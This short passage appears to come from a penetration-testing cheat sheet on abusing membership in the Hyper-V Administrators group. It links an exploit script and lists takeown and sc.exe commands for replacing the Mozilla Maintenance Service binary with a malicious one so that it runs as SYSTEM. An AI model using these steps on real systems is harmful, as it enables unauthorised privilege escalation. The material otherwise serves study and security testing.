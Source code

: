 # Hyper-V Administrators

Use this [exploit](https://raw.githubusercontent.com/decoder-it/Hyper-V-admin-EOP/master/hyperv-eop.ps1) For example with firefox: `C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe` To take ownership: `takeown /F C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe`

Next, we can replace this file with a malicious maintenanceservice.exe, start the maintenance service, and get command execution as SYSTEM. `sc.exe start MozillaMaintenance`
